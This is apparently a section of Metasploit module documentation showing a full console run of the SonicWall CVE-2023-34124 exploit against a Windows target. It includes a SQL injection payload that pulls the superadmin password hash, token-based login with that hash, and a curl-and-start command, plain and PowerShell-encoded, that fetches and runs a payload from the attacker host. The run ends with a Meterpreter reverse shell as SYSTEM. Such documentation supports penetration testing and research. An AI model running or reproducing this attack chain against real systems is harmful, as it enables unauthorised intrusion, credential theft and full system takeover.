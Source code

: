 ### Windows fetch

This is the best Windows target, and will work against installations on Windows
that have the `curl.exe` utility. It fetches and executes a payload using
encoded Powershell commands, granting `SYSTEM` access:

```
msf > use exploit/multi/http/sonicwall_shell_injection_cve_2023_34124
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set TARGET 1
TARGET => 1
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set LHOST 10.0.0.227
LHOST => 10.0.0.227
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set RHOST 10.0.0.79
RHOST => 10.0.0.79
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set FETCH_SRVHOST 10.0.0.227
FETCH_SRVHOST => 10.0.0.227
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[*] Command to run on remote host: curl -so hQwPyfWWi.exe http://10.0.0.227:8080/jmQsj96o2bA9WhizsOs40Q & start /B hQwPyfWWi.exe
[*] Fetch Handler listening on 10.0.0.227:8080
[*] HTTP server started
[*] Adding resource /jmQsj96o2bA9WhizsOs40Q
[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] Attempting to use SQL injection to grab the password hash for the superadmin user...
[*] Generated SQL injection: ' union select (select ID from SGMSDB.DOMAINS limit 1), '', '', '', '', '', (select concat(id, ':', password) from sgmsdb.users where active = '1' order by issuperadmin desc limit 1 offset 0),'', '', '
[*] Generated a token using built-in secret key: /J50ZtvLJddOf5FI4nYdMJcX8IQ=
[*] Sending SQL injection request to get the username/hash...
[.] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Grabbing server hashing token...
[*] Got the server-side token: 33936314922891192454547809769777
[*] Generated client token: e3a16584fcc8a8238c707300d8400917
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Windows detected!)
[*] Encoding (Windows) command: curl -so hQwPyfWWi.exe http://10.0.0.227:8080/jmQsj96o2bA9WhizsOs40Q & start /B hQwPyfWWi.exe
[*] Running shell command: powershell IEX ([System.Text.Encoding]::UTF8.GetString([byte[]]@(99,109,100,46,101,120,101,32,47,99,32,99,117,114,108,32,45,115,111,32,104,81,119,80,121,102,87,87,105,46,101,120,101,32,104,116,116,112,58,47,47,49,48,46,48,46,48,46,50,50,55,58,56,48,56,48,47,106,109,81,115,106,57,54,111,50,98,65,57,87,104,105,122,115,79,115,52,48,81,32,34,38,34,32,115,116,97,114,116,32,47,66,32,104,81,119,80,121,102,87,87,105,46,101,120,101)))
[*] Client 10.0.0.79 requested /jmQsj96o2bA9WhizsOs40Q
[*] Sending payload to 10.0.0.79 (curl/7.83.1)
[+] Payload sent!
[*] Sending stage (200774 bytes) to 10.0.0.79
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.79:52692) at 2023-08-18 14:04:08 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
